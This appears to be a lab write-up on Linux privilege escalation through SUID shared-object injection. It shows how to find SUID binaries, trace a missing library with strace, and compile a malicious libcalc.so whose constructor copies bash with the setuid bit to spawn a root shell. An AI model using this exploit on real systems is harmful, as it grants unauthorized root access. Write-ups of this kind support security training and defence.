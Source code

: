# Dectection


```bash

find / -type f -perm -04000 -ls 2>/dev/null

```


![image](https://user-images.githubusercontent.com/96658935/147664563-030ce722-bbb3-4fbf-9739-db7c7f23a632.png)

From the output, make note of all the SUID binaries.


```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

From the output, notice that a .so file is missing from a writable directory.


![image](https://user-images.githubusercontent.com/96658935/147664797-46d4bec4-f161-46c9-ade2-2fe64cabd55c.png)



![image](https://user-images.githubusercontent.com/96658935/147665288-31d348f7-3cf9-456b-8896-cc950ca4118d.png)


I see that I have permissions to wirte to /user/home




![image](https://user-images.githubusercontent.com/96658935/147665637-a6526c01-2291-4248-8df1-84a49d0b40b1.png)

When the /usr/local/bin/suid-so command is ran its looking for the /home/user/.config/libcalc.so file but it cannot find it. SO because I have writable access to /home/user I'll create that file and put something for my benefit in it.


# Exploitation

![image](https://user-images.githubusercontent.com/96658935/147665944-482df0f8-0abf-47a8-af49-d88c3283ae38.png)




```bash


#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

```


![image](https://user-images.githubusercontent.com/96658935/147666042-d9b297b4-f89d-4e1b-ae2b-73e94257e7b2.png)


(SAVE FILE AS x.c) I placed the code from above in the libcalc.c file

now compile the file

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

now execute the command and become root

![image](https://user-images.githubusercontent.com/96658935/147666327-deae6c02-a2e1-4342-94cb-99efce64a7e8.png)


